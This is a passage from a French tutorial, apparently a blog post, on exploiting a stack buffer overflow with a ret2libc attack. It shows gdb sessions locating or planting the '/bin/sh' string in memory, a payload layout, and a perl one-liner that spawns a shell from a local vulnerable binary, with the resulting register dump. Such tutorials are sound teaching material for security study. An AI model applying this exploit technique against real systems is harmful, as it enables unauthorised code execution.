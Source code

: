 
```bash
(gdb) x/s 0xb7fa92e8
0xb7fa92e8:     "/bin/sh"
```


Pratique non ?


Si jamais cette chaine (ou une autre que vous recherchez) n'est pas présente dans la mémoire du binaire (par exemple la chaine `"I Love Ricard"`, au hasard, mais on va continuer avec `"/bin/sh"`), il existe divers moyens de la stocker, nous allons par exemple la stocker dans une variable d'environnement


```bash
gdb$ set environment HACKNDO=/bin/sh
gdb$ x/s *((char **) environ+7)
0xbffff6ca:     "HACKNDO=/bin/sh"
gdb$ x/s 0xbffff6d2
0xbffff6d2:     "/bin/sh"
```


Une fois stockée, avec un tout petit peu de tâtonnement, nous trouvons son adresse en mémoire, que nous allons utiliser pour la suite.


Nous avons donc maintenant tous les éléments nécessaire pour pouvoir lancer notre attaque ret2libc, avec un payload comme suit :


```text
[ 20 x "A" ] [ 0xb7ea9e20 ] [ OSEF ] [ 0xbffff6d2 ]
```


Voici le résultat :


```bash
gdb$ r "$(perl -e 'print "A"x20 . "\x20\x9e\xea\xb7" . "OSEF" . "\xd2\xf6\xff\xbf"')"
AAAAAAAAAAAAAAAAAAAA ��OSEF����
$ 
```


On a obtenu notre shell ! Félicitations !


Pour rendre cette exploitation plus propre, au lieu de mettre une adresse de retour aléatoire, nous pourrions mettre l'adresse de la fonction `exit()`. Voici rapidement comment ça se passe


```bash
gdb$ r "$(perl -e 'print "A"x20 . "\x20\x9e\xea\xb7" . "OSEF" . "\xd2\xf6\xff\xbf"')"
AAAAAAAAAAAAAAAAAAAA ��OSEF����

$ exit

Program received signal SIGSEGV, Segmentation fault.
--------------------------------------------------------------------------[regs]
  EAX: 0x00000000  EBX: 0xB7FCEFF4  ECX: 0xBFFFF288  EDX: 0x00000000  o d I t S z A P c
  ESI: 0x00000000  EDI: 0x00000000  EBP: 0x41414141  ESP: 0xBFFFF344  EIP: 0x4645534F
  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002BError while running hook_stop:
Cannot access memory at address 0x4645534f
0x4645534f in ?? ()
```
